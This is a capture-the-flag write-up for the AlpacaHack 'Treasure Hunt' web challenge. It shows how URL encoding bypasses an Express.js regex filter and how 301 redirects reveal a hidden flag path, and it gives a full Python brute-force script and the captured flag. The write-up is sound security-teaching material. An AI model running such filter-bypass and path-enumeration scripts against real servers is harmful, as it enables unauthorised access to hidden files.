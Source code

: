 # Treasure Hunt

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 71 solves / 116 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Can you find a treasure?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150730.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150816.png)

In here, we can go to different paths, such as `/book`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150900.png)

Which is just a book emoji.

However, if we go to `/alpaca`, it says "Bad URL: /alpaca":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/images/Pasted%20image%2020241201150953.png)

Hmm... Why is that? Let's read the source code of this web application and figure out why.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-7-Web/Treasure-Hunt/treasure-hunt.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:10:58(HKT)]
└> file treasure-hunt.tar.gz 
treasure-hunt.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 51200
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:11:00(HKT)]
└> tar xvzf treasure-hunt.tar.gz 
treasure-hunt/
treasure-hunt/compose.yaml
treasure-hunt/web/
treasure-hunt/web/index.js
treasure-hunt/web/package.json
treasure-hunt/web/package-lock.json
treasure-hunt/web/Dockerfile
treasure-hunt/web/public/
treasure-hunt/web/public/key
[...]
```

After reading the source code, we can find that this is a very simple web application written in JavaScript with Express.js framework.

In `web/Dockerfile`, we can also see that the flag file is in a very weird path:

```bash
# Create flag.txt
RUN echo 'Alpaca{REDACTED}' > ./flag.txt

# Move flag.txt to $FLAG_PATH
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
    && mkdir -p $(dirname $FLAG_PATH) \
    && mv flag.txt $FLAG_PATH
```

Assume the flag's MD5 hash is `3876917cbd1b3db12e39587c66ac2891`, the flag path is something like this:

```
./public/3/8/7/6/9/1/7/c/<snipped_md5_hash_path>/8/9/1/f/l/a/g/t/x/t
```

Hmm... So we'll need to brute force the flag's MD5 hash and get the correct path?

Anyway, why path `/alpaca` will return bad URL?

If we take a look at `web/index.js`, we can see that every requests must go through this [middleware](https://expressjs.com/en/guide/using-middleware.html):

```javascript
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

In here, if our request's URL path has character `f`, `l`, `a`, or `g`, it'll return HTTP status 400 with data `Bad URL: <our_path>`.

In the above case, path `/alpaca` has character `a`, which matched the regular expression pattern, thus returning bad URL.

Hmm... Wait, will `req.url` automatically perform URL decode? Maybe we can **bypass it via URL encoding**?

Let's log `req.url` and check it out!

```javascript
app.use((req, res, next) => {
  console.log("[DEBUG] req.url", req.url);
  
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
  }
  next();
});
```

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|15:27:15(HKT)]
└> cd treasure-hunt 
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt/treasure-hunt)-[2024.12.01|15:27:15(HKT)]
└> docker compose up --build
[...]
Attaching to treasure-hunt-1
```

```http
GET /%61%6c%70%61%63%61 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 200 OK
[...]

🦙

```

Log message:

```shell
treasure-hunt-1  | [DEBUG] req.url /%61%6c%70%61%63%61
```

Nope, it doesn't URL decode our path, and we successfully bypassed the filter!

Now, how can we brute force the flag's path?

After some trial and error, it seems like when the requested resource is a directory and missing a forward slash like `/1`, we'll be redirected to the correct path, such as `/1/`:

```http
GET /3 HTTP/1.1
Host: localhost:3000


```

Response:

```http
HTTP/1.1 301 Moved Permanently
[...]
Location: /3/
[...]

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Redirecting</title>
</head>
<body>
<pre>Redirecting to /3/</pre>
</body>
</html>
```

## Exploitation

With that said, we can write a Python script to brute force the correct path and get the flag!

<details><summary markdown="span"><strong>solve.py</strong></summary>

```python
#!/usr/bin/env python3
import http.client
from string import hexdigits

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.connection = http.client.HTTPConnection(self.baseUrl.split('http://')[1])
        self.MD5_CHARACTER_SET = hexdigits
        self.MD5_HEX_LENGTH = 32

    def urlEncodeCharacter(character):
        return f'%{ord(character):x}'
    
    def bruteForceFlag(self):
        flagHash = str()
        finalPath = '/'
        while True:
            for character in self.MD5_CHARACTER_SET:
                if len(flagHash) == self.MD5_HEX_LENGTH:
                    print(f'\n[+] Got flag MD5 hash: {flagHash}')
                    return finalPath

                print(f'[*] Brute forcing character "{character}"', end='\r')
                encodedCharacter = Solver.urlEncodeCharacter(character)
                path = f'/{encodedCharacter}' if finalPath == '/' else f'{finalPath}/{encodedCharacter}'
                self.connection.request("GET", path)
                response = self.connection.getresponse()
                response.read()

                isCorrectCharacter = True if response.status == 301 else False
                if not isCorrectCharacter:
                    continue
                
                finalPath += f'{encodedCharacter}/'
                flagHash += character
                break

    def getFlag(self, flagHashPath):
        finalPath = flagHashPath
        for character in ['f', 'l', 'a', 'g', 't', 'x', 't']:
            encodedCharacter = Solver.urlEncodeCharacter(character)
            finalPath += f'{encodedCharacter}/'

        finalPath = finalPath.rstrip('/')
        print(f'[*] Getting the flag via path: {finalPath}')

        self.connection.request("GET", finalPath)
        response = self.connection.getresponse()
        data = response.read()
        flag = data.decode().strip()
        print(f'[+] Flag: {flag}')

    def solve(self):
        flagHashPath = self.bruteForceFlag()
        self.getFlag(flagHashPath)

if __name__ == '__main__':
    # baseUrl = 'http://localhost:3000' # for local testing
    baseUrl = 'http://34.170.146.252:19843'
    solver = Solver(baseUrl)

    solver.solve()
```

</details>

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Treasure-Hunt)-[2024.12.01|16:15:11(HKT)]
└> python3 solve.py
[*] Brute forcing character "f"
[+] Got flag MD5 hash: 4bafb19a7b66cb415eb070ce1a1b2e8f
[*] Getting the flag via path: /%34/%62/%61/%66/%62/%31/%39/%61/%37/%62/%36/%36/%63/%62/%34/%31/%35/%65/%62/%30/%37/%30/%63/%65/%31/%61/%31/%62/%32/%65/%38/%66/%66/%6c/%61/%67/%74/%78/%74
[+] Flag: Alpaca{alpacapacapacakoshitantan}
```

- **Flag: `Alpaca{alpacapacapacakoshitantan}`**

## Conclusion

What we've learned:

1. Regular expression bypass via URL encoding